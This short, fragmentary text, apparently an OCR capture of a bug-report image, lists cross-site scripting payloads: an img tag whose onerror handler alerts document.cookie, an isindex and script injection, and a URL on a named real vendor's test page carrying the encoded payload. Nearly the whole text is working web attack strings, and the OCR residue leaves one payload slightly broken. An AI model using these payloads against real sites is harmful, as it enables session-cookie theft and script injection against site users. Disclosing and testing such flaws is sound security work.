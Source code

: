 -  **abc’”><><img src=1 onerror=alert(document.cookie)>**
- 
- <pre></pre><isindex type=image src=1 onerror=alert(9166.><script>alert(origin)</script>   =>  <https://oem.acronis.com/test/testenv.html/%3C/pre%3E%3Cisindex%20type%3Dimage%20src%3D1%20onerror%3Dalert%289166%29%3E%3Cscript%3Ealert(origin)%3C/script%3E>
- 

